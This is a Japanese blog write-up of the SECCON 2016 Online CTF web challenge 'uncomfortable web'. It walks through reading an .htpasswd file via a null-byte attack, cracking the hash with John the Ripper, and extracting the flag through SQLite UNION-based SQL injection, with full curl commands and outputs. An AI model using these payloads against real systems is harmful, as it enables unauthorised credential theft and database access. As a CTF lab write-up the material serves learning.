 ```yaml
---
layout: post
alias: "/blog/2016/12/11/seccon-2016-online-uncomfortable-web/"
date: "2016-12-11T22:52:05+09:00"
title: "SECCON 2016 Online CTF: uncomfortable web"
tags: [ "ctf", "writeup", "seccon", "web", "sql-injection", "null-byte-attack", "htaccess", "htpasswd", "sqlite" ]
"target_url": [ "https://score-quals.seccon.jp/question/1707d3814069dec8ca49947830e3a51fdff4714b" ]
---
```


本番ではそもそも開かず。生きてるweb問は貴重なので早めに復習。

## problem

適当な言語でscriptをuploadすると、remoteで実行してくれるサービス。
そこから繋がる `http://127.0.0.1:81/` にflagがあるので探す問題。

## solution

まず、scriptをwebからuploadして確認するのは煩雑である。以下のようにする。

``` sh
#!/bin/bash
atexit() { [ -n $tmpfile ] && rm -f "$tmpfile" ; }
tmpfile=`mktemp --suffix=.sh`
trap atexit EXIT
trap 'trap - EXIT; atexit; exit -1' SIGHUP SIGINT SIGTERM
cat <<EOF > $tmpfile
#!/bin/sh
echo
echo --------
echo
echo
echo

curl http://127.0.0.1:81/

echo
echo
echo
echo --------
echo
EOF
curl http://uncomfortableweb.pwn.seccon.jp/\? -F file=@$tmpfile | sed 's/&lt;/</g ; s/&gt;/>/g ; s/&quot;/'\''/g ; s/&amp;/\&/g'
```


`http://127.0.0.1:81/`ではディレクトリが見える。

```
Index of /

[ICO]           Name            Last modified   Size            Description
[DIR]           authed/         28-Nov-2016 10:51               -                
[TXT]           select.cgi      28-Nov-2016 10:08               612              
Apache Server at 127.0.0.1 Port 81
```

`/authed`にはbasic認証がある。
`/select.cgi`は以下のような出力をする。

``` html
<html>
<body>
<form action='?' method='get'>
<select name='txt'>
<option value='a'>a</option>
<option value='b'>b</option>
</select>
<input type='submit' vaue='GO'>
</form>
</body></html>
```

例えば `curl http://127.0.0.1:81/select.cgi?txt=a` とすると以下のように、`/authed/${txt}.txt`を読んでくれる。

``` html
<html>
<body>
<form action='?' method='get'>
<select name='txt'>
<option value='a'>a</option>
<option value='b'>b</option>
</select>
<input type='submit' vaue='GO'>
</form>
<hr>
authed/a.txt<br>
<br>
                       /$$     /$$                       /$$       /$$            /$$                /$$    <br>
                      | $$    | $$                      | $$      /$$/           | $$               | $$    <br>
  /$$$$$$  /$$   /$$ /$$$$$$  | $$$$$$$   /$$$$$$   /$$$$$$$     /$$//$$$$$$    /$$$$$$  /$$   /$$ /$$$$$$  <br>
 |____  $$| $$  | $$|_  $$_/  | $$__  $$ /$$__  $$ /$$__  $$    /$$/|____  $$  |_  $$_/ |  $$ /$$/|_  $$_/  <br>
  /$$$$$$$| $$  | $$  | $$    | $$  \ $$| $$$$$$$$| $$  | $$   /$$/  /$$$$$$$    | $$    \  $$$$/   | $$    <br>
 /$$__  $$| $$  | $$  | $$ /$$| $$  | $$| $$_____/| $$  | $$  /$$/  /$$__  $$    | $$ /$$ &gt;$$  $$   | $$ /$$<br>
|  $$$$$$$|  $$$$$$/  |  $$$$/| $$  | $$|  $$$$$$$|  $$$$$$$ /$$/  |  $$$$$$$ /$$|  $$$$//$$/\  $$  |  $$$$/<br>
 \_______/ \______/    \___/  |__/  |__/ \_______/ \_______/|__/    \_______/|__/ \___/ |__/  \__/   \___/  <br>
<br>
<br>
</body></html>
```

ここでnull-byte attackができて、`curl http://127.0.0.1:81/select.cgi?txt=a.txt%00`で上と同じ結果が得られる。

これを使って`/authed`の認証情報を取りにいく。つまり`.htaccess` `.htpasswd`を読む。
`curl http://127.0.0.1:81/select.cgi?txt=.htpasswd%00` とすると

```
keigo:LdnoMJCeVy.SE
```

と得られる。passwordは暗号化されているが、これは John the Ripper で破れる。(たぶんbruteforceしてる。)

``` sh
$ cat .htpasswd
keigo:LdnoMJCeVy.SE

$ john .htpasswd
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
test             (keigo)
1g 0:00:00:00 100% 2/3 33.33g/s 30733p/s 30733c/s 30733C/s orange..horses
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

`curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/` として見る。
以下のように並んでいる。

```
[DIR]           Parent Directory                                -                
[TXT]           1.cgi           28-Nov-2016 11:41               750              
[TXT]           2.cgi           28-Nov-2016 11:41               750              
[TXT]           3.cgi           28-Nov-2016 11:41               750              
[TXT]           4.cgi           28-Nov-2016 11:41               750              
[TXT]           5.cgi           28-Nov-2016 11:41               750              
[TXT]           6.cgi           28-Nov-2016 11:41               750              
[TXT]           7.cgi           28-Nov-2016 11:41               750              
...
[TXT]           98.cgi          28-Nov-2016 11:41               750              
[TXT]           99.cgi          28-Nov-2016 11:41               750              
[TXT]           100.cgi         28-Nov-2016 11:41               750              
```

どれも以下のようなもので、

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
</body></html>
```

`http://127.0.0.1:81/authed/sqlinj/1.cgi?no=4822267938`とすると以下のように検索結果が返る。

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
<hr>
ISBN-10: 4822267938<br>
ISBN-13: 978-4822267933<br>
PUBLISH: 2016/2/19<p>
</body></html>
```

`1.cgi`には刺さらないが、$100$ある内のいずれかにSQLiが刺さると踏んで、

``` sh
for i in \`seq 100\` ; do
    curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/\$i.cgi?no=$(urlencode " ' or 1 = 1 -- ")
done
```

とすると`72.cgi`がそれ。

適当にsqliteと判断して`sqlite_master`を見る。
これは`by KeigoYAMAZAKI`という作問者情報からでも分かるらしい。

``` sh
curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/72.cgi?no=$(urlencode " ' union select type, name, sql from sqlite_master -- ")
```

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
<hr>
ISBN-10: table<br>
ISBN-13: books<br>
PUBLISH: CREATE TABLE books (isbn10,isbn13,date)<p>
ISBN-10: table<br>
ISBN-13: f1ags<br>
PUBLISH: CREATE TABLE f1ags (f1ag)<p>
</body></html>
```

よって

``` sh
curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/72.cgi?no=$(urlencode " ' union select f1ag, 1, 1 from f1ags -- ")
```

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
<hr>
ISBN-10: SECCON{I want to eventually make a CGC web edition... someday...}<br>
ISBN-13: 1<br>
PUBLISH: 1<p>
</body></html>
```
